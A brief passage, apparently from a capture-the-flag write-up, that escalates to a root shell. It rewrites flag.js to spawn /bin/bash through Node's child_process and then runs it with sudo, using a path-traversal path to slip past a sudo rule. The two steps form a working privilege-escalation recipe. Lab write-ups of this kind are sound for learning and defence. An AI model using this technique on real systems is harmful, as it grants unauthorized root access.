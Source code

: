 Instead of just getting the root flag, let’s get a root shell.  If you are not familiar with js, see gtfobins: https://gtfobins.github.io/gtfobins/node/ 

Step 1: Change the code in flag.js to: require("child_process").spawn("/bin/bash", {stdio: [0, 1, 2]}) <br> 
Step 2: sudo /usr/bin/node /usr/local/scripts/../../../../home/angoose/flag.js

We have shell as root. 

